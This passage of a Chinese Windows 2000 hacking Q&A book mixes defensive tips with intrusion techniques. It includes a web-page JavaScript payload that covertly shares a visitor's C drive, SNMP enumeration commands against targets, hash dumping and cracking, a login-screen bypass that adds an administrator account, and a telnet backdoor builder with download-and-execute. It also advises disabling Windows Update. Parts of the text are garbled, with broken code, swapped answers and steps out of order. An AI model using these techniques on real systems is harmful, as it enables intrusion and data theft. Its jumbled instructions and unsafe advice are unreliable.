> 现在，换到 B 机上来做。同样地，B 机也使用 `\\A机地址\share` 这样的方式来访问 A 机，然后在 A 机上查看会话，会发现这时候已经建立了与 B 机的会话。  
>  
> 这就是我要说的，也许大家认为没看出什么，但是，不知道大家是否熟悉“请求反弹型木马”就是利用了这些大家看来似乎不很重要的东西。  
>  
> 从这个过程中可以看出，如果被入侵主机主动去连接入侵者的机器的话，就连微软自带的工具都不会觉察到，可见其危害性之大。  
>  
> 因此，在这里大家要小心。

## 如何备份注册表？

首先运行注册表编辑器 regedit，然后选中“我的电脑”（图10-47）。


图10-47

然后依次打开菜单“注册表－导出注册表”，在弹出的选择导出路径的对话框中确定导出范围选择了“全部”（图10-48）。然后自己写个名字，点确定就可以了。


图10-48

等恢复的时候，只要双击那个导出的 reg 文件就可以了。

## Win2k 的日志都有哪些？都在哪里？

常见的日志有以下这些：FTP 日志、WEB 服务日志、Task Scheduler 服务日志、应用程序日志、安全日志、系统日志（如果安装了 DNS 的话，还有 DNS 日志，但是 DNS 只能在 Win2k Server 以上的版本中启用，因此就不详细阐述了）。

- `C:\WINNT\system32\LogFiles\W3SVC1`（WEB 服务日志）
- `C:\WINNT\system32\LogFiles\MSFTPSVC1`（FTP 服务日志）
- `C:\WINNT\SchedLgU.Txt`（Task Scheduler 服务日志）

`C:\WINNT\system32\config`

这个目录下的日志不能直接查看，要在日志查看器里才可以查看。

这下面有三个文件，它们分别对应着日志查看器中的三个日志：

- `C:\WINNT\system32\config\SecEvent.Evt`：安全日志
- `C:\WINNT\system32\config\AppEvent.Evt`：应用程序日志
- `C:\WINNT\system32\config\SysEvent.Evt`：系统日志


## 防火墙和杀毒软件是一样的吗？

这个概念就这样被提出来的话，很多人看过后会认为比较可笑。可是实际上，很多人都是分不清楚防火墙和杀毒软件的区别的。

防火墙是针对网络连接进行设置的，防火墙主要是由防火墙规则来实现的。防火墙的设置可以禁止或允许一个网络连接，正是因为这个，我们可以通过防火墙来屏蔽一些常见木马的端口，来达到禁止木马的目的。但是，这并不代表防火墙就和杀毒软件有了相同的功能，因为杀毒软件是负责查杀病毒以及木马类软件的。

现在越来越多的安全产品都是将防火墙和杀毒软件做在了一起，所以大家千万要分清楚两者之间的区别。


## Win2k Server 中有 winhelp.exe 和 winhlp32.exe 吗？为什么删掉之后又恢复了呢？

这个是病毒哦，这样删是没用的，它的名字叫：w32.HLLW.Lovgate.G 蠕虫。

中毒后症状主要就是出现题目中说的那两个文件。另外，在进程中也会出现 winhelp32 等等。其他的现象和不良后果还有很多，在此不详细多说了，大家可以上网搜索一下，很容易就找到。由于中这个病毒的人比较多，所以这里主要说一下清除方法：

先要使用升级了最新病毒库的杀毒软件对系统进行扫描，记录下所有被扫描出来的病毒文件名及路径（以便后面手动清除）。然后杀掉病毒相关的进程。这里的进程名就是杀毒软件扫描到的那些文件名的全部或其中一部分。

杀进程的时候，要来回多杀几次，以确保进程被彻底杀净。

接下来，修改注册表以防止病毒随机启动：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```

删除右侧面板中的键值：

- `WinHelp` = `"C:\WINNT\System32\winHelp.exe"`
- `WinGate initialize` = `"C:\WINNT\System32\WinGate.exe -remoteshell"`
- `Remote Procedure Call Locator` = `"RUNDLL32.EXE reg678.dll ondll_reg"`
- `Program In Windows` = `"C:\WINNT\System32\IEXPLORE.EXE"`

```
HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows
```

删除右侧面板中的键值：

- `Run` = `AVMOND.EXE`

然后，还是要修改注册表，这里要修改几个关联：

`HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下，在右边面板中修改“默认”值的数据为 `NOTEPAD.EXE %1`。

删除系统文件中的启动项：  
`win.ini` 文件中，在 `[Windows]` 部分下面，在以下行中找到并删除该病毒的文件名：  
`Run=%System%\RAVMOND.exe`  
（注意：`%System%` 为 Windows 系统文件夹，它的目录一般为：`C:\Windows\System` 或 `C:\Windows\System32`）。修改完成后保存退出。

在 Windows 2000/NT/XP 中还要关闭该病毒服务：首先到“服务”中找到并关闭病毒服务，然后修改注册表以删除这些服务：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Windows\Management\Instrumentation\Driver\Extension
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetMeeting\Remote Desktop (RPC) Sharing
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Microsoft\NetWork FireWall Services
```

最后一步，就是手动查找并删除那些病毒文件（杀毒软件报告的那些病毒文件）。另外，如果嫌这么做麻烦的话，也可以直接下载 w32.HLLW.Lovgate 专杀工具。

## 什么是蜜罐？

蜜罐（Honeypot）是一个虚拟的网络计算机，可以用软件来实现，也可以通过配置某一台计算机来实现。实现手段和方法没有具体限制，关键在于实现后的功能。

蜜罐一般情况下在网络上看来是一台安全配置存在问题的主机。其实这样做的目的是用来吸引入侵者进入蜜罐，这样蜜罐的制作者就可以通过一些特定程序或其他手段达到监视入侵者的目的。但是制作蜜罐的时候一定要注意，一定要能让入侵者完全在你的控制之下。如果蜜罐制作得不够好，不但能被入侵者及时发现，对一些高明的入侵者来说，还能利用蜜罐配置上的漏洞入侵到真正的主机中。这样的话，呵呵，赔了夫人又折兵了。

## 最近总有人扫描我的 7626 端口，我想给对方做个陷阱，可以吗？

呵呵，Glacier 大侠已经帮我们想到了，我们就用他写的冰河陷阱就好了。界面很漂亮（图10-49）。这个工具就是打开本地的 7626 端口进行监听，伪装成冰河的模样，而且还能截获对方的 IP 地址、使用的命令以及登录密码等等。对了，忘了说，还可以给对方发送消息（呵呵，让对方搞不懂，到底谁中了冰河？）。


另外，在运行冰河陷阱的同时，如果你的机器上中过冰河的话，它会自动给你清除冰河木马，用来杀马也挺方便的，呵呵。

## 如何查看 IIS 记录下来的日志？

一般来说，大家使用 IIS 的话就是常用 FTP 和 WEB 服务器这两部分。这里就针对这两部分日志进行介绍，先来说说 FTP 日志：

`C:\WINNT\system32\LogFiles\MSFTPSVC1`

下全都是 FTP 服务日志。各个日志的命名格式是这样：`ex030327.log`，这就说明这是 03 年 3 月 27 日的日志（具体格式根据系统显示时间格式不同而不同）。打开这个文件，我们来看第一行：

`12:51:50 192.168.46.1 [1]USER python 331`

这行可以看出 IP 地址为 `192.168.46.1` 的用户在 `12:51:50` 进行登录，登录时候使用的用户是 `python`。至于登录是否成功或登录后做了什么，就要看后面的代码 `331`，这就要结合 Win2k 命令集最后附录中的“FTP 服务器常见的返回代码”来看了。这里的 `331` 是指“用户名正确，但是需要密码”。至于其他日志也是如此查看，记住结合 FTP 服务返回代码看，这里就不详细一一介绍了。

接下来看一下 WEB 服务日志情况：

`C:\WINNT\system32\LogFiles\W3SVC1`

`2003-03-19 02:28:58 127.0.0.1 - 127.0.0.1 80 GET /iishelp/Default.htm`

从这一行就可以看出，`127.0.0.1`（啊，就是我自己）在 `2003年03月19日 02:28:58` 访问，查看的页面是 `Default.htm`（按路径来说的话，就是 `http://127.0.0.1/iishelp/Default.htm`）。以上就是对 FTP 和 WEB 日志的简单分析，其他日志的分析方法大概也是一样的。

## 什么是 syskey 加密？

“开始”→“运行”，输入“syskey”，然后回车，就会弹出窗口，这个就是“syskey”了（图10-50）。


图10-50

使用了 syskey 加密后，对入侵者来说，Win2k 的密码将更不容易获得，而且针对工具 pwdump2 来说，也使得它无法获得 Win2k 的密码散列（不过 pwdump3 却可以获得）。

## 最后部分

## 瑞星防火墙和绿色警戒的规则设置

由于很多朋友对防火墙规则还不是很了解，或者大部分朋友对自己的个人防火墙不会进行设置，这里介绍两款不错的个人防火墙，做一个简单的了解和介绍，希望能对大家有所帮助。

两款防火墙分别是瑞星和绿色警戒。先以瑞星为例，点击“规则”按钮，来到防火墙规则设置界面（图10-51）。可以看到，这里有非常多的规则可以进行设置，而且大部分规则都已经列出，只需要进行进一步的“拒绝”或“允许”设置就可以了。

### Win2k 部分


可以了，所以说瑞星防火墙设置非常简单，可以说是一款傻瓜式防火墙了，对新手来说再适合不过了。

好，接下来进行配置。随便双击一条规则，这里我选取了第七条规则，也就是“缺省的 ICMP 入站”（图10-52）。这里我们就可以根据自己的需要进行设置了。大家都知道 ICMP 是 ping 命令所依附的协议，因此，如果不想让别人 ping 通你的话，在这里操作后选择“禁止”就可以了。


另外，如果你也不想 ping 别人的话，那么在方向后选择“双向”（图10-53），这样别人将不能通过 ping 来检测你了，当然你也不能 ping 到别人了。


另外，在下面的三个选项卡里查看“ICMP 类型”，在这里我们可以看到 ICMP 几种不同类型的数据包（图10-54）。默认类型就是 echo request，也就是 ping 所对应的 ICMP echo 请求包。如果需要的话，还可以对其他类型的请求进行屏蔽。

另外，在瑞星防火墙默认规则中，还默认屏蔽掉了所有知名木马连接时使用的默认端口号，不过都是单向屏蔽的，也就是说只屏蔽了入站方向（图10-55）。这样，对于一些新的端口反弹型木马，就没有什么防御能力了，因此大家要主动及时添加新规则。


关于瑞星防火墙就介绍这么多。

接下来，说一下绿色警戒的使用。与瑞星相比，绿色警戒就没有那么傻瓜化了。如果使用绿色警戒的话，需要大家对一些常见木马或后门程序以及一些攻击手法有一定了解，这样才能正确地设置防火墙。

首先，要先保证绿色警戒的“入侵检测”在开启状态，并且日志也在记录状态（图10-56）。


配置绿色警戒的规则比较简单，依次打开“入侵检测→配置”，即可进行规则设置了（图10-57）。


在这里，针对每种协议或是连接，都分别有“对策”和“警告级别”两种处理方法。在这里，我们仍以 ICMP 为例，在监测范围中选择 ICMP，并且其“对策”使用“拦截”，“警告级别”则为“提示”（图10-58）。


这时候，打开 cmd，ping 127.0.0.1（本机）会发现 time out，并且，绿色警戒还会报警提示（图10-59）。


另外，我们还可以在绿色警戒下面看到对方的 IP 和端口，以及连接本机的端口或是协议等等（图10-60）。


OK！以上就是针对瑞星和绿色警戒关于规则设置的使用方法，简单地介绍了一下，希望大家对防火墙规则有一定的了解，并且对防火墙的规则设置也有所掌握。

## 最后的附录部分：组策略实用配置一览

不知道大家是否有使用组策略的习惯，组策略使用起来非常方便，只要使用得当，可以轻松地帮你完成很多事情。在此，就简单地讲述一下组策略吧：

首先，我们要先学会如何打开组策略，“开始”->“运行”，输入 mmc 回车，然后在控制台中通过“控制台->添加/删除管理单元”项来添加组策略。这个过程大家应该都会吧，需要注意的就是在添加组策略的时候，最后一步记得选择本地计算机就可以了。

OK，组策略已经找到了，接下来开始进行修改吧：

- 1. 修改任务栏和开始菜单；

组策略中依次打开：“本地计算机”->“策略”->“用户配置”->“管理模板”->“任务栏和开始菜单”，到这里，看右边的窗口中，可以看到有很多的选项（图10-61）。


这里，每一项就代表一个策略。

例如，在这里，双击“从‘开始’菜单中删除‘文档’菜单”这一项，然后弹出选项卡，我选择“启动”（图10-62）。如果不知道它的作用的话，可以查看说明选项卡，里面有介绍。


这个时候，已经进行了一个设置，就是让“文档”从开始菜单上消失。这时候，我们可以看一下开始菜单会发现……居然还在，啊，不对，居然没有了（图10-63）。


看到了吧？如此炮制，还可以修改很多。另外，在管理模板中，还有很多其他的设置项，像网络、控制面板等等，都可以在这里设置。在这里，我要说说 Windows 组件。

## 2、Windows 组件

禁用掉 Windows Update。不管你使用的是正版的 Windows 还是 D 版的 Windows 系统，在我认为，update 对个人用户来说是根本不需要的，反而在有些时候是个负担，而且还会对用户产生一些负面影响。

只要在 Windows 组件下找到“Windows Update”，然后在右边窗口中双击禁用策略，然后启用该策略就可以禁止了。

另外，IE 的设置中，也有很多是大家需要的。有很多设置可以使你的 IE 在被恶意代码修改后，不用注册表和第三方工具而直接修改。好好看看哦。

## 3、使用组策略维护系统

上面两个都是针对当前用户的配置，如果想要使配置对全部用户生效的话，就应该使用“计算机配置”了。在这里，推荐大家好好读读“计算机配置”下的“管理模板”中的“系统”中的一些策略，非常有用。

## 4、使用组策略增强系统的安全性

在“计算机配置”下面，有一项为“安全设置”，在这里，可以对本地进行一系列的安全策略设置。

第一，帐户策略（图10-64），这里不推荐大家使用帐户锁定策略。我们来看一看密码策略。


在这里，值得进行设置的就是“密码长度最小值”和“强制密码历史”。密码的长度最好能在六位以上，当密码达到三位以上的时候，使用穷举进行破解所需的时间就会成几何次方增长。因此，win2k 的六位登录密码（前提是有一定的复杂性，不要设置 abcdef 这样的密码），如果入侵者想要使用穷举破解的话，可能性几乎为零（主要是因为时间上不允许）。

另外，强制密码历史，设置为零。

第二，本地策略。一般用户的话，建议查看这下面的“安全选项”，这可是非常有用的哦。例如，这一项：对匿名连接的额外限制。在这里，我的配置就是“不允许枚举 SAM 帐号和共享”（图10-65）。


图10-65

这样，其实就是禁止了入侵者使用 IPC 空连接进行连接后对用户帐号的枚举。

第三，本地公钥策略。一般如果采用了 EFS 加密的用户，要注意第一项：加密数据恢复代理。在这里，可以选择不同的已加密用户，并且导出他们的证书。导出方法就是右键左窗口中的某一证书，选择“所有任务->导出”，根据向导导出即可。

第四，IP 安全策略。这个在讲述 IPsec 的时候已经说过了。

关于组策略就简单说这么多了，大家只要使用一下就会发现，组策略使用起来其实是很简单的。而且，根据简单的介绍，大家也应该已经感受到了组策略的强大功能了。因此，只要善加利用手边的工具，就可以做到通过最简单的办法做出最完美的系统。

#### 密码强度测试

经常有人问我什么样的密码才算是安全。其实，这个问题我也很难回答。所以，在这里，我们就用 hacker 们最简单的一个小手段来破解一下 win2k 的登录密码，让实验结果告诉我们，什么样的密码才算安全。

工具：pwdump3，用来 dump 计算机的密码散列。  
LC4，用来获得 dump 散列中的 administrator 密码。

设备：计算机两台；

被入侵主机配置：CPU 为 P3 667；128M 内存；win2k pro 操作系统。  
入侵主机配置：CPU 为 P4 1.7G；256M DDR 内存；win2k svr 操作系统。

LC4 的配置方案：使用暴力破解方式（选择 session -> 勾选 Brute Force Crack 下的 enable，如图10-66）。


图10-66

假设对方有一个弱口令的“administrators”组帐号，以便我们可以顺利 dump 下 administrator 的密码散列。

## win2k 部分

在此，我们将针对一些由单词或者有特定含义的单词加数字组成的密码进行测试，因为这样的密码相对来说会比较常用到。

五位密码：密码为“xpmen”。破解这个密码，仅仅用了两秒而已（图10-67）。


图10-67

六位密码：密码为“python”。破解这个密码，相对就要费一些时间了，破解它用掉了一分零七秒。不过，对一般的入侵者而言，他们还是有这点耐心的。

七位密码：Microsoft 声称，其针对 win2k 登录密码的加密方式，在密码为七位或是十四位的时候，表现得最为良好，密码不易被破解。因此，在这里，我将根据不同的密码结构而做不同的几个实验：

我们先来看一个弱智密码“abcdefg”，四分零二秒；失去耐心，停掉 LC4，没有破解成功。

再试一个，密码为“loveyou”，呵呵，一些在热恋中的朋友们喜欢使用的密码。看看你的爱能坚持多久哦。整整十一分钟，一秒不差，呵呵，还是没破出来，而且还差点把自己的机器给 down 掉，看起来爱的力量还是很大的哦。

根据以上两个针对七位密码的实验，不难发现，即使密码比较简单，但是破解起来的难度也比较大。但是，由于我选择使用了 LC4 的暴力破解，所以才会这样。如果是加挂字典的话，面对如此简单的密码，我想应该就会比较快了。

从以上针对三种密码长度进行暴力破解的过程不难看出，七位密码的加密强度相对要强一些。只要使用稍复杂一些的七位密码，对一般用户而言，我想这就足够了。

一般的入侵者在破解密码的时候，会等待两分钟到五分钟，也有人会等到十分钟以上。不过，遇到我就惨了，在一般情况下我会花二十分钟来等待一个密码的破解；在特殊情况下（遇到我非常想要攻破的主机），我会花两个小时以上去破解一个密码。

因此，密码的长度策略也要因人而异才可以。

再重复一次，以上只是针对暴力破解的一个实验而已。如果在一般情况下，入侵者一般都会使用“字典+暴力破解”两种方式进行密码破解。因此，即使设置了七位密码，也不能设置得过于简单（像例子中那样的密码就不行啦），这样才可以防止字典破解和暴力破解。

## 第11章 win2k 入侵常见问题

### 我想成为一个黑客，该怎么做？

我被问得最多的一个问题、各大论坛上也不可缺少的一个问题，就是它了。虽然在书的开始部分已经给大家一篇关于如何成为一名黑客的文章了，但是在这里，我还是想再说说我的个人观点和看法，希望大家不要丢我烂苹果（哎——烂橘子也不可以）。

- 1. 独自进行探索是非常重要的。注意，这个过程是自己来完成的，在尽量少地借助其他人的情况下。这里并不是要大家不去看那些技术文章，而是希望大家不要不停地问别人问题。在问之前，自己先想想。其实很多问题，并不是靠自己解决不了，而是因为很多人有了一种依赖性，习惯于依赖别人了。也许很多人会反对我的这个看法，但是还是希望你们自己去试试。当你们试过之后就会发现，通过自己努力探索实践获得的东西，和通过别人单纯地灌输给你的过程，是完全不一样的。到那时候，你就一定能改变你原有的看法了。
- 2. 实践不可缺少，永远不要认为自己的技术有多高，而且就因此而去断定某一件事是肯定可以还是不可以，实践才是……
- 3. 关键还在于你的心，有再强的技术，如果没有一颗平静的心的话，那么你最多也将只是一个技术高超的 cracker 而已。

我的个人观点大概就这么几点吧。另外，对于一些刚入门的朋友来说，推荐给你们一些在入门过程中应该学习的东西：hacker 技术是以理论知识为基础的，因此这部分是不可少的。即使再苦再累，也要去学。我推荐大家从 TCP/IP 和操作系统原理这方面的知识学起。

在编程方面，低层的语言，例如汇编，是不可不学的。当然，如果不学习汇编的话，学习 C 语言也是可以的。其实，我还是比较推崇 C 语言的，因为它不仅可以实现底层的一些东西，像一些高级编程可以实现的东西，它也可以做到，例如 CGI。现在我才明白我初中老师为什么说 C 是一门无所不能的编程语言。

总之，大家记住一句话：靠自己不断地追求和探索，但是不要忘记要有一颗平静的心。努力去做，人人都可以成为 hacker（虽然说人人都是 hacker 是一件比较恐怖的事情，但是这句话却不假哦）。

### ping 不到，也 tracert 不到！用 nbtstat 却可以显示一些信息。为什么？

tracert 命令和 ping 命令所使用的协议都是 ICMP。

而 nbtstat 命令则不同，这个命令是通过对方的 NETBIOS 端口来获得对方的主机信息的。也就是说是基于 NETBIOS 所使用的协议。而 NETBIOS 端口开放后，该端口的通信分别使用 UDP 和 TCP 协议。如果对方防火墙只对 ICMP 协议做了禁止的话，通过该命令获得信息是很正常的。

### WIN2000 密码忘了进不去了！有办法么？

win2k 的用户配置信息和密码都记录在 SAM 文件里，而该文件所在位置是 `C:\WINNT\system32\config`（假设 win2k 安装在 C 盘上）。因此，只要删除这个文件就可以了：如果有两个操作系统的话，进入另外一个操作系统删除这个文件；如果只有 win2k 一个操作系统的话，则用 DOS 启动盘启动系统进入 DOS，到 `C:\WINNT\system32\config` 目录下删除 SAM 文件。这时候，再进入 win2k 的时候，就可以以空密码进入了。

不过，这个方法有一个缺点，因为 DOS 系统不支持 NTFS 的文件格式。因此，如果系统的磁盘格式为 NTFS 的话，则无法使用这种方法。

### 什么是字典？字典文件？

一个字典文件中，会包含许多用户名或是密码，并且按照一定的规律排列在文件中（一般的规律是一个密码或一个用户名占一行），这样是为了方便软件从字典中读取用户名或密码。

一般，入侵者使用一个包含了很多可能使用的用户名和可能使用的密码的两个字典，再加上一些配合字典使用的工具，对一些需要用用户名和密码的登录系统（例如信箱）进行字典式攻击，以达到猜解用户名和密码的目的。

### 知道了 SNMP 密码，该如何利用？

在 win2k 的 support tools 中有一个工具叫 SNMP Query Utility（图11-1）。


使用这个工具可以利用 SNMP 来查询一些机器信息，不过，经过我的多次实验发现，这个工具并不太好用，所以建议使用 win2k 的 resource kit 工具箱里的工具 SNMPUTIL（图11-2）。


```bash
snmputil [get|getnext|walk] agent oid
```

其中的 get/getnext/walk 可以看做是获得信息的三种方法。agent 则是 SNMP 密码。oid = Object Identifier，物件识别代码。

```bash
snmputil walk 127.0.0.1 python .1.3.6.1.4.1.77.1.2.25.1.1
```

这个命令就可以查询到我本机上的用户列表（图11-3）。


图11-3

### 经验&技巧：SNMP 的利用

很多朋友都在学会了如何使用这个漏洞后，又产生了另外一个疑问，就是怎么利用获得的这些信息。如果只是想对对方进行简单的入侵或是利用某个漏洞的话，其实这些信息的用处确实不是很大；但是如果是作为一次有针对性的、有目的性的入侵的话，这些信息就有很大价值了。接下来我就来分析一下：

```bash
snmputil walk 对方ip public .1.3.6.1.2.1.25.4.2.1.2
```

这样可以列出系统进程（图11-4）。


图11-4

经常有朋友反映，当他刚上传完软件后，再去运行，系统就报告没有此软件（或是拒绝访问）。这时候，为什么不用这个命令来查看一下系统进程呢？看对方是否开放了杀毒软件之类的东西。另外，在你离开对方主机之前，也来看看对方的进程，看看有没有运行着什么可以记录你在入侵过程中的一举一动的软件。

```bash
snmputil walk 对方ip public .1.3.6.1.4.1.77.1.2.25.1.1
```

这个命令用来列系统用户列表（如前面的图11-3）。这个命令确实实际作用不是很大，最多就是列出用户，然后可以针对个别用户名进行暴力猜解。

```bash
snmputil get 对方ip public .1.3.6.1.4.1.77.1.4.1.0
```

可以列出域名（图11-5）。


图11-5

如果对方真的属于一个域的话，就可以确定更大的攻击范围了，而不用把目标死死地集中在一台主机上。但是对于一般的初级攻击者来说意义不大。

```bash
snmputil walk 对方ip public .1.3.6.1.2.1.1
```

列出对方的系统信息（图11-6）。


图11-6

也许会获得很多你看不懂的东西，但是最基本的东西，那就是系统版本和对方主机的机器名是可以得到的。以上就是四条常用的命令。

> 看来 SNMP 这个东西挺危险，怎么防御啊？

方法很简单，第一就是不安装 SNMP。但是如果要使用 SNMP 的话，这个办法就不行了。还好，还另外有办法。

第二个方法就是修改默认的 public 团体。依次打开“控制面板”→“管理工具”→“服务”→右键 SNMP Service→“属性”→“安全”→“编辑”（图11-7）。在这里，可以修改默认的 public。例如，我修改 public 为 python。


图11-7

但是，有一点要注意，除了修改这里之外，还要修改“陷阱”选项卡中的“社区”名称。这里的名称和刚才修改的一样，例如就为 python（图11-8）。然后再正确添加地址，这样才能正常地发送陷阱消息。


图11-8

### “admin”连接对方机器，显示命令完成，然后 copy 文件到对方机器 `copy c:\*.exe \\ip\admin$`，为什么会显示“找不到网络名”，错误 67？

既然返回的错误信息是“找不到网络名”，那么应该可以判断对方没有开放 admin$ 这个共享。

admin$ 这个共享是什么？

admin$ 也是一个远程管理共享，是 win2k 系统默认开放的。它所对应的共享路径是 `C:\WINNT`（假设 win2k 安装在 C 盘）。用 net share 命令就可以看到（图11-9）。


图11-9

### 企业邮箱不支持 WEB 收发，取得账号和密码以后，怎么样不让邮件下载到本地？有没有这样的工具？

在 OE 的“工具→选项→维护”里有一项“邮件下载 x 天后删除”，这是用来设置邮件下载几天后被删除的。你可以在那里把时间设置得长一点，但也要看运气了。如果你设置为 10 天，而那位朋友在第 11 天的时候来看信，呵呵，没了。

### 用 `net use \\ip\ipc$ "admin" /user:` 对方为 win98，怎么样才可以给对方开共享呢？

先在你的机器上启动 Web 服务器（win2k 的话用 IIS，win98 的话用 PWS），然后把以下代码加入你设置的主页代码中，让对方浏览你的 Web 就可以了，代码如下：

```html
html
<script language=JavaScript>
document.write( ... );
function f()
{ a1=document.applets[0]>;
```

```javascript
a1.setCLSID("F935DC22-1CF0-11D0-ADB9-00C04FD58A0B");
a1.createInstance();
Shl = a1.GetObject();
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\hack$\\Flags", 302, "REG_DWORD");
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\hack$\\Type", 0, "REG_DWORD");
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\hack$\\Path", "\\\\\\", ...);
function init() {
  setTimeout(..., 1000);
}
init();
```

注意：以“Shl.RegWrite”开头的这几句代码的作用是写入浏览者的注册表，在 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan 下面添加键值“hack$”，在“hack$”下又分别建立键值“Flags”“Type”“Path”，这样就把 C 盘设为共享了，共享名为 hack$。

这样，呵呵，别人浏览你后，C 盘被共享，你就可以通过 `\\ip\hack$` 来访问对方的 C 盘了，接下来的事怎么做就不用我教了吧。

> 我明明有系统管理员的用户名和密码，并且可以用 `net use` 建立 IPC$ 连接，一看却是在自己的系统上。（登录 IPC$ 连接以后）

这里有一个错误的说法，就是“登录 IPC$ 连接”以后。希望大家清楚，`net user \\ip\ipc$ "pass" /user:"name"` 这个命令所建立的只是一个连接，而并非登录。既然只是连接，而不是登录到对方的主机上的话，那么，使用的任何命令当然只是在本机上起作用了。

> 怎样在命令提示符下安装 terminal service？

建立一个批处理文件（*.bat 文件）：

```bat
echo [Components] > c:\python
echo TSEnable = on >> c:\python
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\python /q /r
```

（这里假设 NT 安装目录为 C:\winnt。参数 q 为重新启动，r 为不立刻重新启动，c:\python 任取。）

> 能用 telnet 登录上去，怎么让硬盘共享？怎么下载文件？

telnet 到对方主机上后，就像在本机上使用 DOS 环境一样来操作远程主机。这样一来，就可以使用命令来把对方硬盘的一个分区或是文件共享，命令如下：

```bat
net share c=c:\winnt\system
```

图11-10

这个命令就共享了对方的 system 文件夹，共享名为 C，这样的话，就可以直接使用 `\\ip\c` 的格式来直接访问对方的 `C:\WINNT\system` 文件夹了。

如果想要删除这个共享的话，直接 `net share c /del` 就可以了（图11-11）。

> 我不想使用 win2k 的 telnet 服务，有没有其他 telnet 的后门程序？

孤独剑客的作品——winshell。一个非常小巧的 telnet 后门程序。

## Winshell 的使用方法

下载的 winshell 是一个用来制作 telnet 后门程序的 GUI 界面的工具（图11-12）。按照提示配置端口和密码以及服务名等等，然后点“Make”按钮就可以完成了。

完成后，会生成一个大小只有 5K 多一点的后门程序（图11-13）。

同时，还会生成一个与后门程序名相同的 txt 文本文件，该文件中记录了配置状况（图11-14）。

## Winshell 的自动下载功能

在 Winshell 中，有这样两项：DownExec 和 AutoInstall。选中 DownExec 项后，你会发现 Url Address 和 Destination Filename 两项呈可填写状态（图11-15）。

另外一项 AutoInstall，不用我说也可以看懂了吧，自动安装。想让对方怎么样，就看你自己了，写好地址选择正确后就……嘿嘿。

## 删除 winshell

找到 winshell 的 telnet 服务端是有必要的，另外，它还写入了注册表，这一点在 winshell 的制作界面中也有写到（图11-16）。

## Win2k 部分

注册表位置为：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。由于 winshell 的 telnet 服务端的服务名及其在注册表中的键值名都是可改的，所以，在这里，就需要依靠自己的经验来判断了。Good Luck!

选中这项，会弹出一个对话框，要求输入一个路径，在这里，我们输入 `c:\winnt\system32`（图11-20）。

点确定后，会发现帮助的右栏中显示了 system32 目录下的所有文件和文件夹，在这里，找到 net.exe 并为它创建一个快捷方式（图11-21）。

然后右键这个快捷方式，选择属性，在这里，在“目标”的后面写上 `C:\WINNT\system32\net.exe user aaa /add`（图11-22），双击该文件，这时候就运行了这个文件，并且根据 `C:\WINNT\system32\net.exe user aaa /add` 可看出，运行该文件后就在系统中创建了一个用户名为 aaa 的用户。同样道理，再次修改快捷方式属性中的目标，改为 `C:\WINNT\system32\net.exe localgroup administrators aaa /add`，这样就成功地将用户 aaa 添加到了 administrators 组里了，这样就可以用这个用户来登录系统了。

## 输入法漏洞是什么？

在 win2k 的登录界面，在用户名处点鼠标左键，这时候按 ctrl+shift 组合键，切换输入法，将当前输入法切换（图11-17）。

然后在输入法条上点右键，在里面会看到帮助，点击“帮助”（图11-18）。

这时候会弹出输入法的帮助，在帮助的上边蓝色条上点右键，在菜单里会有一项“跳至 URL”（图11-19）。

## ipc$ 常见问题集

### 建立了 ipc$ 空连接后，到底有什么作用？

建立了 ipc$ 空连接后，就可以对远程机上的用户进行枚举了。除此之外，还可以访问任何一个有 everyone 组有权限访问的文件或是文件夹。在默认情况下，有 N 多甚至可以说是全部的文件夹都是对 everyone 组有访问权限的。而且，默认情况下，everyone 组还对注册表的键值有读权限，这个用 regedt32 就可以看出来（图11-23）。

从上图中可以看到，everyone 组对主键 HKEY_LOCAL_MACHINE 是有读权限的，当然，其他键也是这样的。如果这样的话，通过注册表就可以获得很多的系统信息了。所以 ipc$ 的空连接是很可怕的。如果想查看关于 ipc$ 空连接的专业文章，可以到微软的 KB 中去搜索。

### 我经常在建立 ipc$ 连接的过程中碰到返回一个错误号的情况，这些号是干什么用的？

这个就要去找微软了，因为 98 和 winME 中是没有这个功能的，只有 NT/2000/XP 及以上系统才可以建立 ipc$ 连接。

### 我的系统是 win98，为什么不能建立 ipc$ 连接啊？

每个错误号都对应了一个错误信息，下面列出错误号所对应的信息和解决办法：

- 错误号 5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限；
- 错误号 51，Windows 无法找到网络路径：网络有问题；
- 错误号 53，找不到网络路径：IP 地址错误；目标未开机；目标 lanmanserver 服务未启动；目标有防火墙；
- 错误号 67，找不到网络名：你的 workstation 服务未启动；目标删除了 ipc$；
- 错误号 1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个 ipc$，要先删除再连；
- 错误号 1326，未知的用户名或错误密码：原因很明显了；
- 错误号 1792，试图登录，但是网络登录服务没有启动：目标 NetLogon 服务未启动（连接域控会出现此情况）；
- 错误号 2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码。

### 怎样打开目标的 IPC$？

```bat
net share ipc$
```

这个比较麻烦，因为必须获得一个具有 admin 权限的 shell 才可以，然后用命令 `net share ipc$` 就可以了。

### 怎么样才能禁止别人与我进行 ipc$ 连接？

方法比较多，在此一一列出，如果不全的话，还望见谅（小弟毕竟能力有限）：

- a、删除默认共享：`net share ipc$ /del`。这样做起来很简单，但是下次启动系统的时候，系统还会再次打开的，所以最好在启动项里加上一个批处理，里面写上：

```bat
net share ipc$ /del
net share admin$ /del
net share c$ /del
net share d$ /del
```

这个批处理文件实在太麻烦了点，如果愿意的话，还可以编写一个更短的批处理：

```bat
for %%x in (C$ D$ E$ F$ G$ admin$ ipc$) do net share %%x /del
```

只要把想删除的共享资源的共享名添加到 `in` 后面的括号中（注意每个共享名之间有空格）就可以了。

